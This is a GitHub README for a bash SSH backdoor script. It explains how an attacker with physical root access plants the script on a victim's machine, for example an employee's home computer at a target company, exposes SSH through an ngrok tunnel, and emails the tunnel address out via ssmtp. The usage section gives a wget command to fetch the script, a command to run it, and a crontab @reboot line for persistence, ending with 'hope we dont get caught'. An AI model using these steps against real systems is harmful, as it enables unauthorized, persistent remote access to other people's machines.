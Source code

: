 ### SSH BACKDOOR

This is a bash script that gives the attacker `ssh access` to a compromised host in a private network. The script uses a set of linux tools to 
set up an SSH port and uses ngrok for tunneling and the address --that is always randomized is sent to the attackers server, in this 
case the address is sent to our email address.There is a lot of footprint left behind.Please do not use this script for illegal purposes :tada:
 
##### __The following are some of the conditions that should be met for this script to work.__

- [x] The attacker should have physical access to the compromised machine and they should be root or they should have sudo priviledges.
- [x] The script uses `./ngrok` therefore familiarity with [ngrok](https://ngrok.com) is encouraged.
- [x] The compromised machine or host should be connected to an internet connection.
- [x] set up `ssmtp` to send email to our email address -- using gmail in this case :)


##### __The following is a scenarion or use case were the script can be used__

> *Imagine you as the attacker have physical access to a personal computer (of an employee of a target company) that was weakly configured giving us root. This computer is in 
> the home network therefore that means that it does not face the public internet. You want to constanly get access to this machine, right? Running the script will 
> return an ssh-address that will enable you to connect remotely. We can make this fun by running the script as a cron-job on boot therefore getting 
> connections wherenever the computer is booted. Amazing or rather dangerous right :)*

**_NB_**: The script uses the `/var/tmp/` directory for its operations and logs errors that are sent back to the attacker.

- The `/etc/ssmtp/ssmtp/.conf` file should be configured since this is where ssmtp checks when sending your email. This is where the sender email 
address and the mail server is with its port is listed.

#### US4GE

1. To download the file you can use `wget` or `curl`.

```
wget -o https://raw.githubusercontent.com/mutur4/Hacking-Scripts/main/post-exploitation/ssh-backdoor/backdoor.sh
chmod +x backdoor.sh
sudo crontab -e or ./backdoor.sh
```
2. Add the following line below the crontab file opened for editing 

`@reboot /usr/bin/sleep 90; /full/path/backdoor.sh`

3. Lets just sit and wait hope we dont get caught :shipit:
